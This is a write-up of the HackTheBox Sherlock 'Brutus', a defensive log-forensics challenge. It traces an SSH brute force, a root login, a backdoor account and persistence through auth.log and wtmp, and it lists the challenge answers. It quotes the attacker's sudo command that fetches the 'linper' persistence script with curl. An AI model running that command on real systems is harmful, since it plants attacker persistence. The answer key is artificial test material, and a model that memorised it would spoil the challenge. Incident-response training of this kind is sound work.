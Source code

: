 ```yaml
---
title: 'Sherlocks Brutus'
publishedAt: '2024-04-14'
summary: 'HackTheBox Sherlocks Challenge Brutus Solution easily explained.'
slug: 'sherlocks-brutus'
featured: 'true'
tag: 'htb,technical'
---
```


<img src="/assets/htb/sherlocks-brutus/asset0.png" alt="Sherlocks Brutus"/>

# Sherlock Scenario
HackTheBox - [Sherlocks Brutus](https://app.hackthebox.com/sherlocks/Brutus)

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

> Unzip  Brutus.zip
<CodeBlock title="Terminal">
```bash
7z x Brutus.zip
```
</CodeBlock>

## Task 1
***Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?***

**1. Open `auth.log` file using ur editor.**

<CodeBlock title="Terminal">
```bash
nvim auth.log
```
</CodeBlock>

**2. Upon reviewing the `auth.log` traffic, we can identify ***2 IPs***.**

*203.101.190.9*
<img src="/assets/htb/sherlocks-brutus/asset1.png" alt="Sherlocks Brutus"/>

*65.2.161.68*
<img src="/assets/htb/sherlocks-brutus/asset2.png" alt="Sherlocks Brutus"/>

**3. Notice that first IP `203.101.190.9` login single time unlike second IP `65.2.161.68`.**
**4. Another thing , Notice that `65.2.161.68` able to login after so many *failed attempts*. Indicates that suspect is trying to brute force into.**

<img src="/assets/htb/sherlocks-brutus/asset3.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 1st Task --> ANS: 65.2.161.68

***

## Task 2
***The brute force attempts were successful, and the attacker gained access to an account on the server.
What is the username of this account?***

**1. Notice that, suspect did a brute force attack and was successful for user `root`.**

<img src="/assets/htb/sherlocks-brutus/asset4.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 2nd Task --> ANS: root

***

## Task 3
***Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?***

**1. Make use of `grep` to filter `auth.log.`**
<CodeBlock title="Terminal">
```bash
cat auth.log | grep "session opened" | grep "root"
```
</CodeBlock>

<img src="/assets/htb/sherlocks-brutus/asset5.png" alt="Sherlocks Brutus"/>

**2. Check first Accepted password by `65.2.161.68`.**
<img src="/assets/htb/sherlocks-brutus/asset6.png" alt="Sherlocks Brutus"/>

>[!NOTE]
> Note that , as its first instance , it means its the result of brute force attack. Suspect yet did'nt logged in manually.

We need to find second instance.
<img src="/assets/htb/sherlocks-brutus/asset7.png" alt="Sherlocks Brutus"/>

**3. Cross check result of cat and second instance.**

Times came out to be - `Mar  6 06:32:44`
However, the 06:32:44 is the times for the attempt for successfull login.
So the answer should be `06:32:45`

>[!RESULT]
> 3rd Task --> ANS: 2024-03-06 06:32:45

***

## Task 4
***SSH login sessions are tracked and assigned a session number upon login.
What is the session number assigned to the attacker's session for the user account from Question 2?***

**1. Check logs around `Mar 6 06:32:44`.**

We will find session number there i.e. 37.
<img src="/assets/htb/sherlocks-brutus/asset8.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 4rd Task --> ANS: 37

***

## Task 5
***The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges.
What is the name of this account?***

**1. Make use of `grep` to find out new user and its logs.**
<CodeBlock title="Terminal">
```bash
cat auth.log | grep "groupadd"
```
</CodeBlock>

As we can see new user `cyberjunkie` was added to group `gshadow`.
<img src="/assets/htb/sherlocks-brutus/asset9.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 5rd Task --> ANS: cyberjunkie

***

## Task 6
***What is the MITRE ATT&CK sub-technique ID used for persistence?***

**1. We can find it on official site .**

i.e. - [Mitre official site](https://attack.mitre.org/tactics/TA0003)

>[!RESULT]
> 6th Task --> ANS: T1136.001

***

## Task 7
***How long did the attacker's first SSH session last based on the previously confirmed authentication time
and session ending within the auth.log? (seconds)***

**1. Make use of `last` command.**

<CodeBlock title="Terminal">
```bash
last -f wtmp
```
</CodeBlock>

We can see time interval `12:02 - 12:07`
<img src="/assets/htb/sherlocks-brutus/asset10.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 7th Task --> ANS: 279 sec

***

## Task 8
***The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?***

**1. Make use of `cat` and `grep`**

<CodeBlock title="Terminal">
```bash
cat auth.log | grep "COMMAND"
```
</CodeBlock>

We can see that suspect has downloaded and ran the script.
<img src="/assets/htb/sherlocks-brutus/asset11.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 8th Task --> ANS: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

## References

- [https://app.hackthebox.com/sherlocks/Brutus](https://app.hackthebox.com/sherlocks/Brutus)

- [https://attack.mitre.org/tactics/TA0003](https://attack.mitre.org/tactics/TA0003)
